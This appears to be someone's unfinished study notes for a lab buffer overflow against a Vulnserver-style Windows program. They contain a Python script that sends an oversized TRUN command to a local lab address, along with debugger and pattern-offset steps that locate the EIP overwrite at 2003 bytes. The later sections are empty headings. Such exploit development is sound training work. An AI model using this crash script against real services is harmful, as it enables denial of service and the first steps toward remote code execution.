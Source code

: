     https://z3r0th.medium.com/a-simple-buffer-overflow-using-vulnserver-86b011eb673b
_________________________________________________________________________________________________________________
### Static Analysis
#### Performing basic analysis
    strings secureserverind.exe | more
    file secureserverind.exe
_________________________________________________________________________________________________________________
### Running the program
#### Checking the ports to see if the port we identified is listening
    netstat -antot
_________________________________________________________________________________________________________________
### Using linux to make script
#### Script is to create socket to connect to the program we identified
    vim winbuff.py
```
#!/usr/bin/env python

import socket

buf = "TRUN /.:/"
buf += "A" * 5000

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM) ## Creating Socket, IPv4 TCP
s.connect(("192.168.65.10",9999)) ## Define host and port
print s.recv(1024) ## Print to screen the response
s.send(buf) ## Send variable buf
print s.recv(1024) ## Print to screen the response
s.close() ## Close the socket
```
_________________________________________________________________________________________________________________
### Run immunitydebugger as admin
#### File > attach > select instance > attach > click run/red arrow
_________________________________________________________________________________________________________________
### Use the site to generate 5000 characters
    https://wiremask.eu/tools/buffer-overflow-pattern-generator/?
#### Copy and paste in the script replacing the "A" and dropping the * 5000
_________________________________________________________________________________________________________________
### Rewind the immunitydebugger and hit run again
#### Then rerun the script
_________________________________________________________________________________________________________________
### Next copy the EIP and paste into the register value
    https://wiremask.eu/tools/buffer-overflow-pattern-generator/?
#### To find the offset 2003
_________________________________________________________________________________________________________________
### Next update the script by deleting the 5000 generated characters and adding the two lines below
#### buf += "A" * 2003
#### buf += "BBBB"
_________________________________________________________________________________________________________________
### Rewind the immunitydebugger and run again
#### Make sure the script it saved and run it again, should get back 42424242 in the EIP field
_________________________________________________________________________________________________________________
### Can delete the "BBBB" line, just to ensure it ran properly
#### Back on the immunitydebugger run the command below in the bottom bar
    !mona modules
_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
